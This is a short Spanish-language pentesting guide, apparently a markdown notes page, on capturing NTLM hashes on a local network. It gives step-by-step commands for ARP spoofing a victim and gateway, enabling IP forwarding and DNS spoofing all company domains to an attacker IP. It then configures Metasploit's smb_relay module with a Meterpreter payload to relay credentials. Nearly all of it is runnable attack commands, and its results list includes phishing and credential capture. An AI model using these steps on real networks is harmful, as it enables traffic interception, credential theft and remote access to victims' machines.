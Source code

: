 Vamos a intentar capturar hashes NTLM con los cuáles podemos hacer PASS the hash attack después. 


## DNS and ARP spoofing

Para ello vamos a interceptar el tráfico de la víctima por ello mediante arpspoofing a la víctima le diremos que somos el gateway y al gateway le diremos que somos la víctima. 

1. Engañamos a la víctima para que nos vea como el gateway

	arpspoof -i eth0 -t <IP_VICTIMA> <IP_GATEWAY>
	2 Engañamos al gateway para que nos vea como la víctima
	arpspoof -i eth0 -t <IP_GATEWAY> <IP_VICTIMA>


2. Habilitamos el reenvío de paquetes y listo, ya el tráfico está pasando por nuestra máquina. 

	`echo 1 > /proc/sys/net/ipv4/ip_forward
`
3. Habilitamos mediante dnspoof un servidor dns falso con todos los dominios de la red apuntando hacia nuestra ip de atacante:
	`dnspoof -i eth0 -f spoof.conf`

	Si la compañía es mycompany.com el fichero sería:
	**Ejemplo de archivo `spoof.conf`:**
	192.168.1.200 *.mycompany.com   
	
   nota: 192.168.1.200 sería nuestra ip de atacante
### **Resultado del ataque**

✅ La víctima pregunta por `google.com`.  
✅ **Nosotros (atacante) respondemos con una IP falsa** (nuestro servidor).  
✅ La víctima se conecta a nuestra IP en lugar del sitio real.  
✅ Podemos hacer phishing, capturar credenciales, o lanzar un ataque SMB Relay si la víctima intenta acceder a un recurso de red.

## SMB Relay attack

Ahora que el tráfico pasa por nosotros y además cuando hagan peticiones DNS nosotros seremos los que les digamos que la IP del servidor que buscan somos nosotros, vamos a crear un servidor SMB con un módulo de metasploit: `exploit/windows/smb/smb_relay`

```
use exploit/windows/smb/smb_relay
set SRVHOST 192.168.1.200  # Nuestra IP (falso servidor SMB)
set LHOST 192.168.1.200  # Parámetro del payload meterpreter
set SMBHOST <ip> # IP del servidor al que queremos acceder mediante smb
run
```
